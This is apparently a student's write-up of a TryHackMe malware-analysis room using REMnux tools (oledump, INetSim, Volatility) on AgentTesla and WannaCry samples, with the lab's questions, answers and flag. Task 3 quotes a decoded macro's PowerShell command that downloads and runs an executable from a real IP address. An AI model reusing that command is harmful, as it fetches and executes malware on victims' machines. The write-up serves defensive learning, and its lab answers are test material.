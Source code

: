 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/re-mnux-getting-started/","created":"2024-11-26T11:23:00.000-05:00","updated":"2025-03-09T16:38:29.888-04:00"}
---
```


# Task 3 - File Analysis

- Using tool called “oledump.py” for forensic analysis for OLE2 files (Microsoft proprietary)
	- OLE2, stores multiple datatypes within a single file

![image 38.png](/img/user/TryHackMe/THM_Images/ee14bdbb3f75e30eb51e9291b8091e97.png)

Check out the datastreams (A#) with given letters, (A4: M [macro])

```Bash
oledump.py agenttesla.xlsm -s 4
```

![image 39.png](/img/user/TryHackMe/THM_Images/204eee1facbb27df9e9560ed853a2ba1.png)

Doing this produces a result that’s harder to read, so use the “—vbadecompress” flag to make it more human readable

```Bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

![image 40.png](/img/user/TryHackMe/THM_Images/3e7e50f8903591bbaa98134f27176d5f.png)

Focus on the “Sqtnew” file, realized that we can replace both ^ and * character with no characters, (replace with “”).

Can do with CyberChef

![image 41.png](/img/user/TryHackMe/THM_Images/f6119111f8ac4ad6c3971f7eeec1d298.png)

Get the output

> "powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } �PassThru; Invoke-WebRequest -Uri ""[http://193.203.203.67/rt/Doc-3737122pdf.exe](http://193.203.203.67/rt/Doc-3737122pdf.exe)"" -OutFile $TempFile; Start-Process $TempFile;"

This command is the VBA macro that runs once the .xlsm file is open. It opens Powershell in the background and downloads this file through the IP address. It’ll then start running the file.

> [!Question] 
**What Python tool analyzes OLE2 files, commonly called Structured Storage or Compound File Binary Format?**

> [!done] Answer
oledump.py

> [!Question] 
**What tool parameter we used in this task allows you to select a particular data stream of the file we are using it with?**

> [!done] Answer
-s

> [!question] 
**During our analysis, we were able to decode a PowerShell script. What command is commonly used for downloading files from the internet?**

> [!done] Answer
Invoke-WebRequest

> [!question] 
**What file was being downloaded using the PowerShell script?**

> [!done] Answer
Doc-3737122pdf.exe

> [!question] 
**During our analysis of the PowerShell script, we noted that a file would be downloaded. Where will the file being downloaded be stored?**

> [!done] `Answer`
`$TempFile`

> [!question] 
**Using the tool, scan another file named `possible_malicious.docx` located in the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. How many data streams were presented for this file?**

![image 42.png](/img/user/TryHackMe/THM_Images/9f2d47fc366f1123bc564f90b7f15d5c.png)

> [!done] Answer
16

> [!question] 
**Using the tool, scan another file named `possible_malicious.docx` located in the `/home/ubuntu/Desktop/tasks/agenttesla/` directory. At what data stream number does the tool indicate a macro present?**

Based off the screenshot above

> [!done] Answer
8

# Task 4 - Fake Network to Aid Analysis

- INetSim: Internet Services Simulation Suite
	- Observes behaviours of malicious software in it’s network activities

INetSim Config

Do this on the RemuxVM (has the tool)
    
```Bash
sudo nano /etc/inetsim/inetsim.conf
```
    
Change the _dns_default_ip 0.0.0.0_ to the machine IP

![image 43.png](/img/user/TryHackMe/THM_Images/3da78d16985f5785377cb658a4dcac50.png)

![image 44.png](/img/user/TryHackMe/THM_Images/5a6687ce7e3f3ac74c3b6afe333da87d.png)
    
Run the command below to start the tool

```Bash
sudo inetsim
```

![image 45.png](/img/user/TryHackMe/THM_Images/62dc7e7bcf1f8d4d29b885cfc599de89.png)
    
Go back to attack box to and try to go to it’s IP address to see the INetSim’s homepage

![image 46.png](/img/user/TryHackMe/THM_Images/6de4163eee1390e38c7389e4f7acdfea.png)


Common behaviours of malware is to download binary or scripts, can mimic it with the command
    
```Bash
sudo wget https://10.10.153.203/second_payload.zip --no-check-certificate
```

![image 47.png](/img/user/TryHackMe/THM_Images/452fdab3ce8fa8bda5f9849d80d5ebcc.png)
    
Back on the Remuix, can stop it and it’ll create a report on connections, Usually saved in `var/log/inetsim/report/`

![image 48.png](/img/user/TryHackMe/THM_Images/4d6caa0cbb07f09e8de498596e3fb44c.png)

> [!Question]
> 
> **Download and scan the file named `flag.txt` from the terminal using the command `sudo wget https://10.10.153.203/flag.txt --no-check-certificate`. What is the flag?**

![image 49.png](/img/user/TryHackMe/THM_Images/f903580aae1216681b504e231cfdd592.png)

> [!done] Answer
Tryhackme{remnux_edition}

> [!Question]
> 
>**After stopping the inetsim, read the generated report. Based on the report, what URL Method was used to get the file flag.txt?**

> [!done] Answer
GET

# Task 5 - Memory Investigation: Evidence Preprocessing

- Volatility
	- Extracts artefacts from memory images
	- Saves output to txt for further examinations
	- This room focus on windows plugins like:
		- windows.pstree.PsTree
		- windows.pslist.PsList
		- windows.cmdline.CmdLine
		- windows.filescan.FileScan
		- windows.dlllist.DllList
		- windows.malfind.Malfind
		- windows.psscan.PsScan

Need to go to directory with .mem file and run the command 
	
```Bash
vol3 -f wcry.mem <plugin-here>

Example: vol3 -f wcry.mem windows.pstree.PsTree
```

Can do a loop statement to run the process in bulk
    
```Bash
for plugin in windows.malfind.Malfind windows.psscan.PsScan windows.pstree.PsTree windows.pslist.PsList windows.cmdline.CmdLine windows.filescan.FileScan windows.dlllist.DllList; do vol3 -q -f wcry.mem $plugin > wcry.$plugin.txt; done
```

Can preprocess image with Linux **strings** utility, Extracts ASCII, 16-bit little-endian, and 16-bit big-endian strings.
    
```Bash
strings wcry.mem > wcry.strings.ascii.txt
strings -e l wcry.mem  > wcry.strings.unicode_little_endian.txt
strings -e b wcry.mem > wcry.strings.unicode_big_endian.txt
```
    

> [!question] 
**What plugin lists processes in a tree based on their parent process ID?**

> [!done] Answer
PsTree

> [!question] 
**What plugin is used to list all currently active processes in the machine?**

> [!done] Answer
PsList

> [!question] 
**What Linux utility tool can extract the ASCII, 16-bit little-endian, and 16-bit big-endian strings?**

> [!done] Answer
strings

> [!question] 
**By running vol3 with the Malfind parameter, what is the first (1st) process identified suspected of having an injected code?**

![1000](/img/user/TryHackMe/THM_Images/874a8ae56193006c240195f1372c8b3d.png)

> [!done] Answer
csrss.exe

> [!question] 
**Continuing from the previous question (Question 6), what is the second (2nd) process identified suspected of having an injected code?**

> [!done] Answer
winlogon.exe

> [!question] 
**By running vol3 with the DllList parameter, what is the file path or directory of the binary @WanaDecryptor@.exe?**

![image 51.png](/img/user/TryHackMe/THM_Images/a97a19fae91c6b6db0b8a60583f5540e.png)

![image 52.png](/img/user/TryHackMe/THM_Images/dac14b46be2f2c04305d76d93a8a95d5.png)

> [!done] Answer
`C:\Intel\ivecuqmanpnirkt615`